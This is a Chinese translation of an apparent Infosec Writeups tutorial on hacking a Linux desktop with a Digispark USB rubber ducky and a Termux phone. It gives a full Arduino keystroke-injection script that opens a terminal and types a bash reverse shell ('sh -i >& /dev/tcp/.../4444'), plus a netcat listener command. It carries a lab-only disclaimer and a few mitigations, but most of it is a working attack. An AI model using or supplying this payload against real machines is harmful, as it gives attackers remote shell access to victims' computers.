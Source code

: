 # 用最便宜的 USB 橡皮鸭和 Android 终端(Termux)黑一个 Linux 桌面

> 原文：<https://infosecwriteups.com/hack-a-linux-desktop-with-the-cheapest-usb-rubber-ducky-and-the-android-terminal-termux-d8ec62ad25ac?source=collection_archive---------1----------------------->

![](img/17326afd33e331b1825ad55d80276208.png)

纳赫尔·阿卜杜勒·哈迪在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的照片

上次，我写了一篇关于用不到 3 美元制作一个 USB 橡皮鸭的文章，我做了一个简单的测试，并附上了如何在出错时排除故障。

[](/make-usb-rubber-ducky-with-less-than-3-fa72dac9e4de) [## 用不到 3 美元做一个 USB 橡皮鸭

### USB 橡皮鸭和 u 盘很像，但又不一样。因为它会注入一些有效载荷的击键…

infosecwriteups.com](/make-usb-rubber-ducky-with-less-than-3-fa72dac9e4de) 

今天给大家讲解一下如何用最便宜的 USB 橡皮鸭和 Android 终端(Termux)黑一个 Linux 桌面。

**免责声明**:

> 本教程只是出于教育目的。我不建议你去黑别人，因为这是违法的。用自己的黑客实验室练习这个教程就行了。

如果你理解了上面的免责声明，那就开始吧。

## 准备—安装 netcat (netcat-openbsd)

为了帮助我们制作一个连接监听器，请在 **Termux** 中安装 netcat。

```
pkg install netcat-openbsd
```

确保你的手机和受害者的笔记本电脑有相同的网络。然后，检查 android 的 IP 地址。

```
ifconfig
```

我们的准备工作已经完成。

## 将有效载荷构建到 Digispark 中

用您的 Termux IP 地址更改 **192.168.0.113**

1.  **用** [**反向外壳生成器**](https://www.revshells.com) 生成净荷

设置 IP 和端口，并选择您最喜欢的反向脚本。

![](img/640d8e2f486e3033c70187d3f2d50308.png)

**2。创建 Arduino 脚本**

下面是我的算法:
1。按 Windows 键。
2。键入“终端”并按回车键，打开终端。
3。键入有效负载以连接到我的 termux
4。按回车键

以下是完整的脚本:

```
#include "DigiKeyboard.h"
void setup() {
}void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("terminal");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("sh -i >& /dev/tcp/**192.168.0.113**/4444 0>&1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  for (;;) {
    /*empty*/
  }}
```

如果你想要更多制作**鸭子脚本**的参考，我从[这里](https://github.com/CedArctic/DigiSpark-Scripts/tree/master/Reverse_Shell)得到。

**3。将您的代码编译到 Digispark**

不知道把代码编译到 digispark？
刚刚看了我上一篇把 Arduino 代码编译成 Digispark 的文章。

[](/make-usb-rubber-ducky-with-less-than-3-fa72dac9e4de) [## 用不到 3 美元做一个 USB 橡皮鸭

### USB 橡皮鸭和 u 盘很像，但又不一样。因为它会注入一些有效载荷的击键…

infosecwriteups.com](/make-usb-rubber-ducky-with-less-than-3-fa72dac9e4de) 

## 执行

用 Netcat 在 Termux 中制作一个简单的监听器

```
nc -lvnp 4444
```

将 Digispark 插入 Linux 的 USB 端口。Digispark 正在工作，你得到了外壳。

这是演示:

## 结论

很恐怖，对吧？你也可以黑掉其他操作系统，windows、macOS 和 Android 都可以随时通过键盘进行外部访问。

为了减轻这种攻击，您可以这样做:
1。千万不要相信任何 USB，
2。用标准用户运行你的计算机
3。关闭你的 USB 端口，用硅使其不可见。

感谢阅读，保持安全。

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)